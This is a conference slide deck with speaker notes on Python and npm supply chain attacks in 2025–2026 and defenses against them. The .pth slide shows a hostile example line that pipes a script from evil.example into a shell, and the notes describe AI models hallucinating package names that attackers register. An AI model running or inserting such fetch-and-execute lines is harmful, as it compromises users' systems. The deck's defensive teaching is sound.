






<!--
SPEAKER NOTES are in HTML comments — Marp shows them in Presenter View (press `p`),
not on the slide. Every factual claim has a source URL in its notes block.

Flow: scare montage → define it → quantify it (3 charts) → how a bad package gets in
→ anatomy of the 2026 cascade (xz, Trivy→litellm, .pth, PEP 829) → the new frontier
(TanStack + Trusted Publishing) → defenses → AI → playbook.

The montage slides are text headlines so the deck works out of the box. For the
"wall of tweets" feel, screenshot the linked sources into src/assets/.
NOTE for PDF export: marp needs --allow-local-files for the chart images (serve/build are fine).
-->

# Supply Chain Attacks


**Anže Pečar**
Python Lisbon Meetup
*June 11, 2026*

<!--
Opener: "Tonight I want to scare you a little, then make you feel better. We'll look
at how attackers get into our code through the packages we trust — and what we can
actually do about it." Frame: this keeps happening, more and more. Roll the montage.
-->


---

### February/March 2026
# AquaSecurity `Trivy`

1. Trivy got hacked in February by `hackerbot-claw` through a `pull_request_target` workflow and extracted a PAT.
2. After the incident they didn't properly rotate all compromised credentials.
3. On March 19 a compromised version of the Trivy binary (v0.69.4) and GitHub Actions were published
4. On March 22 compromised versions (v0.69.5 and v0.69.6) were published to DockerHub

<!--
TRANSITION (callback): "num2words was one account, one package. In 2026, one compromise cascaded across the whole ecosystem — remember litellm from the montage? Here's where it started."
The 2026 anatomy starts here. Irony hook: Trivy is Aqua Security's SECURITY SCANNER
— the thing scanning for vulnerabilities WAS the vulnerability. On Mar 19 2026
"TeamPCP" used creds stolen during a non-atomic rotation window to publish malicious
Trivy v0.69.4 and force-push 76 of 77 trivy-action tags to malicious commits.
Malware dumps Runner.Worker memory via /proc/<pid>/mem, sweeps 50+ paths for SSH/AWS/
GCP/Azure/K8s/Docker/.env/DB creds + crypto wallets, encrypts with AES-256-CBC +
RSA-4096, ships it out.
Sources:
- https://github.com/aquasecurity/trivy/security/advisories/GHSA-69fq-xp46-6x23
- https://www.aquasec.com/blog/trivy-supply-chain-attack-what-you-need-to-know/
- https://securitylabs.datadoghq.com/articles/litellm-compromised-pypi-teampcp-supply-chain-campaign/
-->


---

### March 2026

# `litellm`

Versions 1.82.7 & 1.82.8 ran a credential stealer on **every Python startup**.

<!--
TRANSITION (open the montage): "Let me show you the last 90 days." Steady drumbeat, escalating each slide.
Mar 24 — the marquee one, and the most-installed. litellm is a hugely popular LLM
gateway (~543M downloads/month — it's the TOP BAR on the blast-radius chart in a few
slides, so by then it won't be a surprise). The payload was a litellm_init.pth that
runs on every Python startup — we come back to HOW it works, and the Trivy origin, in
the deep-dive. Keep this slide a teaser; don't explain .pth yet.
Source: https://docs.litellm.ai/blog/security-update-march-2026
-->

---

### April 2026

# `pytorch-lightning`

Versions 2.6.2 & 2.6.3 ran a credential stealer on **`import`**.

<!--
Apr 30. Tampered builds uploaded directly to PyPI (bypassing source control). On
`import lightning`, a hidden loader downloaded the Bun runtime and ran an ~11MB
obfuscated stealer (SSH keys, shell history, cloud creds, GitHub/npm tokens, crypto
wallets), exfiltrating to attacker GitHub repos. Socket flagged it at 18 min; live
~42 min. (OSV tracks the malicious package as `lightning`; the incident is publicly
the "PyTorch Lightning" compromise.)
Sources:
- https://lightning.ai/blog/pytorch-lightning-supply-chain-attack
- https://socket.dev/blog/lightning-pypi-package-compromised
-->

---

### May 2026

# `durabletask`

Versions 1.4.1–1.4.3 stole cloud secrets on **`import`**. 

*This is Microsoft's official SDK.*

<!--
May 19. Microsoft's official Durable Task Python SDK. Attacker bypassed CI/CD and
uploaded directly to PyPI with stolen publishing creds; on import a 28KB rope.pyz
stole AWS/Azure/GCP/K8s/password-manager secrets and 90+ dev-tool configs, with
lateral movement and a geo-targeted wiper. Linked to TeamPCP.
Source: https://www.stepsecurity.io/blog/microsofts-durabletask-pypi-package-compromised-in-supply-chain-attack
-->
---

### June 2026

# `Hades`

A self-replicating **worm** that steals creds, then **wipes your home dir** if you revoke the token.

~28+ PyPI packages · still spreading

<!--
TRANSITION (land the montage): beat of silence, then "That's not a highlight reel — that's one quarter."
Jun 7-8 — basically last week. Part of a 448-artifact campaign (411 npm + 37 PyPI).
Bioinformatics / Graph-ML packages (ensmallen, embiggen, dynamo-release...). Abused
*-setup.pth / import hooks to fetch the Bun runtime + a credential-stealing payload,
with a destructive "wiper deterrent" if the stolen GitHub token is revoked.
Sources:
- https://socket.dev/blog/shai-hulud-descends-to-hades-miasma-pypi-wave
- https://www.stepsecurity.io/blog/the-hades-campaign-pypi-packages
Land it: "...and that one was a few days ago. This is the new normal."
-->
---

### May–June 2026

# Not just Python — **npm, too**

`@antv/*` — **323 packages**, ~1.1M weekly downloads.

`@redhat-cloud-services` — **Red Hat's own** 32 packages; their CI was compromised.

`@tanstack/*` — **84 versions**, **no token stolen** — the build cache was poisoned.

*preinstall worms, poisoned pipelines — every ecosystem, same quarter.*

<!--
Breadth slide — it's every ecosystem.
- AntV (May 19): popular data-viz libs (@antv/g2, g6, x6, l7, s2...); malicious
  preinstall harvested GitHub/AWS/K8s/SSH/CI secrets, AES-256-GCM exfil, worm-style
  republishing. https://socket.dev/blog/antv-packages-compromised
- @redhat-cloud-services (Jun 1-2): a "Miasma"/Mini Shai-Hulud variant (TeamPCP).
  Compromised RedHatInsights CI/CD published trojanized packages with a preinstall
  worm; ~80K downloads/week combined. (StepSecurity "Red Hat compromised" post — the
  JUNE 2026 npm incident, NOT the Oct 2025 GitLab breach.)
  https://access.redhat.com/security/vulnerabilities/RHSB-2026-006
  · https://www.microsoft.com/en-us/security/blog/2026/06/02/preinstall-persistence-inside-red-hat-npm-miasma-credential-stealing-campaign/
- @tanstack/* (May 11): 84 versions / 42 packages; NO token stolen — a poisoned GitHub
  Actions cache made the trusted release pipeline publish the malware. DIFFERENT
  mechanism from the worms above. Keep it a TEASER here — full deep-dive later (it's the
  "Trusted Publishing doesn't help" case). https://tanstack.com/blog/npm-supply-chain-compromise-postmortem
-->

---



<!--
TRANSITION (narrate both charts as ONE thought, don't dwell): "It's happening more often —"
The "it keeps happening" payoff. Each bar = notable, DOCUMENTED PyPI incidents that
year (all sourced in research/supply-chain-cases.md). Clear acceleration from 2022;
2026 is only HALF a year and already at 5.
Honest caveat: recent years are better documented — read it as a trend, not a census.
Backup macro stats: Sonatype counted 450k+ new malicious packages across all
ecosystems in 2025; >1.2M cumulative. ReversingLabs: PyPI malware actually DROPPED
~43% in 2025 (mandatory 2FA + Trusted Publishing) even as npm doubled — defenses
work, the hopeful thread for later.
Chart: research/charts/plot_incidents.py
-->

---

# So what *is* a supply chain attack?

You don't get hacked directly.

Someone you **trust** gets hacked.

*a dependency, a transitive dependency, a build tool, a GitHub Action*

<!--
TRANSITION: "So what actually happened in all of those? Same shape every time —"
Plain definition, right after the scare reel. The attacker doesn't break into YOUR
server. They compromise something upstream you pull in automatically: a library, a
library OF a library, a CI action, a build tool. You run `pip install` / `npm ci` and
invite it in. The trust we rely on to move fast is exactly the attack surface.
Transition: "How bad is this really? Three charts."
-->

---

# Getting a bad package installed

**Brandjacking**: a trending name. `deepseeek` / `deepseekai` appeared the week DeepSeek went viral.

**Typosquatting**: a misspelling of a real name. `jeIlyfish` (capital `I`) for `jellyfish` stole SSH keys; `fabrice` (for `fabric`) lurked since 2021 and got 37k downloads.

**Slopsquatting**: AI *hallucinated* name. Open models invent packages **~22%** of the time.

<!--
TRANSITION: "Now — how does a bad package actually get onto your machine?"
Three ways an attacker gets a brand-new malicious package onto your machine — no need
to compromise an existing one.
- Typosquatting: jeIlyfish (2019) swapped a capital I for the l in "jellyfish",
  stole SSH/GPG keys. fabrice (typosquat of fabric) lurked since 2021, ~37k downloads,
  stealing AWS creds — typosquats sit there for YEARS racking up installs.
  https://snyk.io/blog/malicious-packages-found-to-be-typo-squatting-in-pypi/
  · https://socket.dev/blog/malicious-python-package-typosquats-fabric-ssh-library
- Slopsquatting: term coined by Seth Larson (PSF, Apr 2025). USENIX Security 2025
  study (576k samples, 16 LLMs): commercial models hallucinate package names >=5.2%,
  OPEN models >=21.7% (~22%). If the AI tells you to `pip install` something that
  doesn't exist, an attacker may have already registered it.
  https://www.usenix.org/conference/usenixsecurity25/presentation/spracklen
- Brandjacking: deepseeek (three e's) + deepseekai, uploaded Jan 29 2025 as DeepSeek
  trended; stole env vars/API keys/DB creds via Pipedream C2; 200+ downloads before
  PyPI pulled them in ~an hour. Reported by Positive Technologies.
  https://www.bleepingcomputer.com/news/security/deepseek-ai-tools-impersonated-by-infostealer-malware-on-pypi/
ACTIONABLE: don't blindly `pip install` what an AI suggests; verify the package exists.
-->

---

# Upgrading a package you trust

**Stolen credentials**: a phished or leaked maintainer token. (`num2words`, `durabletask`)

**Poisoned CI/CD**: the release pipeline itself is hijacked. (`litellm`, `ultralytics`)

<!--
TRANSITION (the pivot): "Those three sneak in a NEW package. The scarier move is taking over one you ALREADY trust."
This is the category MOST of tonight's montage belongs to — litellm, durabletask,
pytorch-lightning were all trusted packages that shipped a poisoned version. Two routes:
- Stolen / phished credentials or leaked tokens — the attacker logs in as the maintainer
  and publishes (num2words = phished maintainer; durabletask = stolen publishing creds).
- A compromised release PIPELINE — the CI/CD that builds & publishes is poisoned
  (litellm via the Trivy dependency; ultralytics via GitHub Actions cache poisoning).
Why it's scarier than typosquats: you already depend on it and you UPDATE into it — no
typo, no mistake on your part. Sets up num2words (a phishing example) and the
Trivy->litellm deep-dive (a pipeline example).
-->

---

# `num2words`: phised through email linking to pypj.org

**July 2025.** A fake **`pypj.org`** (note the `j`) proxied real logins — defeating TOTP 2FA in real time.

4 maintainers phished through email.

<!--
TRANSITION: "One phishing email shows exactly how that happens — and how it spreads."
The "compromise an existing trusted package" path. July 2025 PyPI phishing campaign.
- pypj.org (j instead of i) was a TRANSPARENT REVERSE PROXY relaying username/
  password/TOTP to the real pypi.org live — so TOTP didn't help. WebAuthn/passkeys
  WOULD have (origin check fails).
- 4 accounts phished; num2words got malicious releases 0.5.15/0.5.16. Payload (a
  Windows "Scavenger" loader, near-identical to the npm eslint-config-prettier
  compromise days earlier) dropped wallet stealers AND exfiltrated .pypirc files.
- .pypirc stores PyPI API tokens in PLAINTEXT — read one and you can publish to every
  package that maintainer owns. ACCURACY NOTE: PyPI's report confirms the .pypirc
  harvesting CAPABILITY but documents malicious uploads only to num2words — frame as
  "built to cascade," not a confirmed multi-package takeover.
Sources:
- https://blog.pypi.org/posts/2025-07-31-incident-report-phishing-attack/
- https://invokere.com/posts/2025/07/scavenger-malware-distributed-via-num2words-pypi-supply-chain-compromise/
ACTIONABLE: passkeys/WebAuthn over TOTP; Trusted Publishing so there's no token to steal.
-->

---

# Trivy hack cascaded to PyPI

`litellm` 1.82.7 & 1.82.8 shipped a `litellm_init.pth` that ran on **Python startup**.

`telnyx` 4.87.1 & 4.87.2 shipped a payload hidden in a **`.wav` file**, XOR-decrypted in memory.

<!--
The cascade — each compromise handed the attacker creds for the next target.
LiteLLM's post-mortem: the compromise "originated from the Trivy dependency used in
our CI/CD security scanning workflow" — their PyPI publishing creds were stolen by
the poisoned scanner running in THEIR pipeline.
- litellm 1.82.7 & 1.82.8 (Mar 24). PyPI quarantined in ~40 min. .pth was in 1.82.8.
  Exfil to models.litellm.cloud.
- telnyx 4.87.1 & 4.87.2 (Mar 27). Payload hidden in a WAV file (ringtone.wav /
  hangup.wav), XOR-decrypted, run in memory.
Full chain (Datadog): Trivy -> npm worm "CanisterWorm" -> Checkmarx/OpenVSX -> PyPI.
(Aside, if asked: litellm has ALSO had exploited CVEs in 2026 — SQLi CVE-2026-42208,
and command-injection CVE-2026-42271 chained with a Starlette bypass for unauth RCE.
Those are vulnerabilities in the real code, NOT supply-chain compromises.)
Sources:
- https://docs.litellm.ai/blog/security-update-march-2026
- https://snyk.io/blog/poisoned-security-scanner-backdooring-litellm/
- https://www.bleepingcomputer.com/news/security/backdoored-telnyx-pypi-package-pushes-malware-hidden-in-wav-audio/
-->

---

# What is a `.pth` file?

A file in `site-packages`. Each line either:

A path to be added to `sys.path` at startup
An import line that gets execuded with `exec()`


```python
/opt/mycompany/shared-libs
import os; os.system("curl https://evil.example/x | sh")
```

<!--
WHAT IT IS: a `.pth` ("path configuration") file in site-packages; normally each line is
a directory appended to sys.path at startup. Part of the `site` module, around since the
late-1990s (Python 1.5.x era) so installers could extend sys.path automatically —
setuptools eggs, namespace packages, and `pip install -e` editable installs all rely on
it. NOTE: the import-line exec was only DOCUMENTED in the site docs in 3.5 (2015), NOT
added then — it predates that by ~a decade. Don't state a precise "added in version X"
on stage without checking CPython git history.
THE MECHANISM: Python's `site` module, on EVERY interpreter startup, scans site-packages
for *.pth files and EXECUTES any line beginning with `import ` (space/tab). Runs even if
you never `import litellm` — on every `python`, `pip`, IDE language server, CI step. The
single-line "restriction" is no security control; one line shells out to anything.
Source: https://docs.python.org/3/library/site.html
"An executable line in a .pth file is run at every Python startup, regardless of
whether a particular module is actually going to be used."
-->

---

# PEP 829

**Mar 24, 2026** — litellm's `.pth` attack. **One week later**, PEP 829 was created and quickly accepted.

`import`-line execution in `.pth` files is **deprecated**.

Replacement: a `<name>.start` file that *names* a callable (`pkg.mod:func`) instead of `exec()`-ing inline code.

*It doesn't end startup code execution just makes it declared & auditable*

<!--
TRANSITION (the mood-lift — earn it): "Here's the good news — this attack actually changed Python."
The "ecosystem responds" beat — a Python-language story for this crowd. Punchline:
the fix was an idea for years; one attack made it happen in a week.
- 2018: CPython issue #78125 (Barry Warsaw) — sat OPEN ~6 years.
  https://github.com/python/cpython/issues/78125
- 2021: PEP 648 (Mario Corchero) proposed a cleaner mechanism — REJECTED (Aug 2021),
  framed as ergonomics not security. https://peps.python.org/pep-0648/
- Jan 2024: #113659 (Serhiy Storchaka) — Python now REFUSES hidden .pth files;
  backported to 3.8-3.13. https://github.com/python/cpython/issues/113659
- Mar 25 2026: Alyssa Coghlan opens a discuss.python.org thread on per-package opt-in.
- Mar 31 2026: PEP 829 (Barry Warsaw) ACCEPTED, targets Python 3.15. Replacement is a
  separate `<name>.start` file naming an entry-point callable (`package.module:callable`)
  resolved via pkgutil.resolve_name() and CALLED with no args. (An earlier `.site.toml`
  TOML draft was REJECTED as overkill.) https://peps.python.org/pep-0829/
- NUANCE (may be asked): .start does NOT stop code execution. PEP: "The overall
  pre-start code execution attack surface is not eliminated by this PEP. A malicious
  package can still cause arbitrary code execution via entry points, but the mechanism
  ... is more structured, auditable, and amenable to future policy controls." Wins:
  .pth=path only / .start=code only (you can SEE what runs); routes through the import
  system (PEP 578 audit hooks); payload must live in a real module, not a one-liner.
- Why it took so long: setuptools/pip PEP 660 EDITABLE installs ship an
  __editable__*.pth that uses the import-line to register an import hook.
CAUTION (post-cutoff — verify against the live PEP): per-version cadence reads oddly
(3.15-3.17 work, 3.18-3.19 silently ignored, 3.20+ warning). Say "accepted, ~5-year
deprecation from 3.15." The site docs carry only a soft note, not a security warning.
-->

---

# How to protect yourself? 😱

---

# Don't use long lived tokens

To avoid what happened to Trivy try avoid using long lasting credential tokens, and make sure to have systems in place to rotate fast and reliably if compromosied.

**Trusted Publishing (OIDC)** (PyPI feature) uses ~15-min tokens that are more difficult (but not impossible!) to compromise

If attacker runs code **inside your trusted workflow**, PyPI happily signs and ships their build. (Tanstack got hacked like this).

> "Weaknesses in those workflows can be equivalent to credential compromise." — PyPI docs

<!--
TRANSITION: "'But isn't Trusted Publishing supposed to fix this?' Here's the uncomfortable part —"
Nuance that matters. Trusted Publishing replaces long-lived API tokens with
short-lived OIDC tokens — great against stolen/leaked tokens (part of why PyPI malware
DROPPED in 2025). But trust now lives in the WORKFLOW. If the workflow is compromised
(cache poisoning, malicious action, pull_request_target), the trusted pipeline
publishes the malicious artifact — signature and all.
One-liner: tj-actions = steal the static secret (TP fixes it). TanStack = poison the
build, let the trusted pipeline publish for you (TP does NOT fix it).
Mitigation: minimal 2-step publish job, job-level permissions, environments with
required reviewers, don't run fork code with pull_request_target.
Source: https://docs.pypi.org/trusted-publishers/security-model/
-->

---

# The best dependency is **no dependency**

> "A little copying is better than a little dependency." - Go proverb

The smaller your dependency tree, the smaller your attack surface.

<!--
TRANSITION (the big pivot, doom -> do — give the audience a reset): "OK. Deep breath. That's the threat. Here's what actually works — and none of it is exotic."
Defenses start with the cheapest, most effective one: fewer dependencies. Every dep
(and every dep OF it) is code you trust and an account that can be phished. You can't
cooldown or hash your way out of an attack surface you didn't need.
- Go proverb (Rob Pike, GopherFest 2015): https://go-proverbs.github.io/
- Russ Cox, "Our Software Dependency Problem" (2019): https://research.swtch.com/deps
ACTIONABLE: audit your tree, drop barely-used deps, prefer the stdlib, vendor tiny utils.
-->

---

# Pin to **hashes**, not just versions

```text
django==5.1.4 \
  --hash=sha256:abc123...
```

| Tool | Command |
|------|---------|
| **uv** | `uv lock` *(hashes by default)* |
| **pip-tools** | `pip-compile --generate-hashes` |
| **pip** | `pip install --require-hashes -r req.txt` |

<!--
Defense: pin hashes. CORRECTION many people get wrong: PyPI is immutable — a file for
a version can never be replaced and the filename can't be reused. So the threat is NOT
"same version, different bytes on PyPI." The real value of locally-committed hashes:
  - protects against a compromised mirror / private proxy / MITM serving different bytes,
  - guarantees byte-for-byte reproducible installs everywhere.
A version pin says "the right name"; a hash says "the exact bytes I reviewed."
Source: https://pip.pypa.io/en/stable/topics/secure-installs/
-->

---

# Pin *all* the things

Python packages aren't your only attack surface.

```yaml
# GitHub Actions — pin to a full commit SHA, not a movable tag
- uses: actions/checkout@<40-char-sha>   # not @v4
```
```dockerfile
# Docker — pin the digest, not the tag
FROM python@sha256:<digest>              # not python:3.13
```

Also: `pre-commit` revs · Terraform lockfiles · `package-lock.json` · `curl | sh` installers.

<!--
Ties the talk together: tj-actions (Mar 2025) AND TanStack (May 2026) both abused
MOVABLE git tags — `@v4` can be silently repointed to malicious code. Pin Actions to a
full commit SHA (Dependabot/Renovate can still bump the SHA). Docker `:3.13` tags are
mutable and re-pushed — pin the `@sha256:` digest for byte-identical base images. Same
principle everywhere: pin the IMMUTABLE identifier, not the friendly name. More:
pre-commit `rev:`, Terraform .terraform.lock.hcl, package-lock.json integrity, any
`curl ... | sh` installer (pin a version + verify a checksum).
-->

---

# Automate updates

**Automate** — Dependabot / Renovate. Stale pins = known CVEs forever

**Isolate** — `pip install -U` runs arbitrary code (`setup.py`, `.pth`). Make sure the blast radius is limited.

<!--
Two halves.
(a) Pinning without updating just freezes you on known-vulnerable versions. Use
Dependabot/Renovate so updates are routine and CI catches breakage.
(b) Installing runs arbitrary code at BUILD, IMPORT, and STARTUP (.pth). Do it in a
container/sandbox to limit blast radius — never `pip install` straight onto a CI host
with cloud creds lying around. Exactly what the Trivy/litellm payloads went after.
-->

---



---

# Use cooldowns

```toml
# pyproject.toml
[tool.uv]
exclude-newer = "5 days"                      # skip the dangerous window
exclude-newer-package = { django = "1 day" }  # but patch trusted pkgs fast
```

```bash
# pip 26.1+
pip install --uploaded-prior-to P7D -r requirements.txt   # 7-day cooldown
```

Malicious versions are usually yanked within hours. 

But a blanket cooldown also delays security fixes.

<!--
Defense from my blog (blog.pecar.me/how-to-safely-update-your-dependencies). Most of
these attacks are caught and yanked within HOURS (litellm ~40 min). A cooldown means
you don't install anything newer than N days, skipping the dangerous window. uv has
first-class support: `exclude-newer` (accepts "5 days", ISO durations, or a timestamp).
THE CATCH: a blanket cooldown also delays genuine SECURITY releases — so keep a
conservative global cooldown but carve out per-package overrides for trusted/watched
packages: `exclude-newer-package = { django = "1 day" }` (or `= false` for no cooldown).
My policy: 5 days globally, 1 day for Django.
pip has it too now: pip 26.0 added `--uploaded-prior-to` (absolute timestamp only);
pip 26.1 (Apr 2026) added relative ISO durations in days, e.g. `--uploaded-prior-to=P7D`.
CAVEAT: pip's flag is GLOBAL — no built-in per-package override like uv's
`exclude-newer-package`. Backup stat: research (cooldowns.dev) suggests a 7-day cooldown
would have blocked ~8 of 10 recent supply-chain attacks.
Also: Renovate `minimumReleaseAge`; Dependabot shipped a `cooldown` option in 2025
(never delays security updates).
Sources:
- https://docs.astral.sh/uv/reference/settings/#exclude-newer
- https://docs.astral.sh/uv/reference/settings/#exclude-newer-package
- https://ichard26.github.io/blog/2026/04/whats-new-in-pip-26.1/
- https://docs.renovatebot.com/key-concepts/minimum-release-age/
-->

---

# AI is making things worse


<!--  -->

**2.3 years → 22 hours** to first exploit, and shrinking. · `zerodayclock.com`

<!--
TRANSITION: "One last shift — and it cuts both ways."
IMAGES: "From Vulnerability to Exploitation" + "Time-to-Exploit Milestones" from
zerodayclock.com (built on CISA KEV + VulnCheck KEV / VulnCheck XDB timestamps), shared
by @erwinrossen@mas.to in a reply to Anže (https://mas.to/@erwinrossen/116702525298780621).
CITE zerodayclock.com on stage. NOTE the milestones graph is an EXTRAPOLATION ("1 hour /
1 minute" projected ~2027) — present it as provocative, not hard data.
NUANCE (be precise if asked): this is CVE disclosure->exploitation time, NOT malicious-
package detection — don't conflate the 22h with the cooldown window (different threat).
It supports the AI-slide point: offense/exploitation is accelerating. (Erwin's thread
asked "so what's the right cooldown?" — good audience hook, but flag the distinction.)
Original offense/defense talking points (now off-slide — keep as backup):
Closing argument: attackers already use AI to find bugs/build exploits faster — so
defenders must too, proactively. (Avoid the inflated "1,400 zero-days / 80x" numbers.)
- Offense: XBOW, autonomous AI pentester, #1 on HackerOne US (June 2025), ~1,060 vulns.
  https://www.darkreading.com/vulnerabilities-threats/ai-based-pen-tester-top-bug-hunter-hackerone
- Discovery: AI-augmented OSS-Fuzz found CVE-2024-9143, a ~20-year-old OpenSSL bug
  (Nov 2024). https://security.googleblog.com/2024/11/leveling-up-fuzzing-finding-more.html
- Defense: Google Big Sleep found CVE-2025-6965, a SQLite flaw "known only to threat
  actors and imminently going to be used" (July 2025) — first time AI foiled an
  in-the-wild exploit. https://cloud.google.com/blog/products/identity-security/cloud-ciso-perspectives-our-big-sleep-agent-makes-big-leap
- Defense at scale: Socket runs LLM analysis on every new npm/PyPI package. https://socket.dev/
Takeaway: point AI at your own dependencies before someone else does.
-->

---

# The playbook

1. **Fewer dependencies** the smallest tree you can live with
2. **Pin** to hashes deps, **Actions (SHA), Docker (digest)**, everything
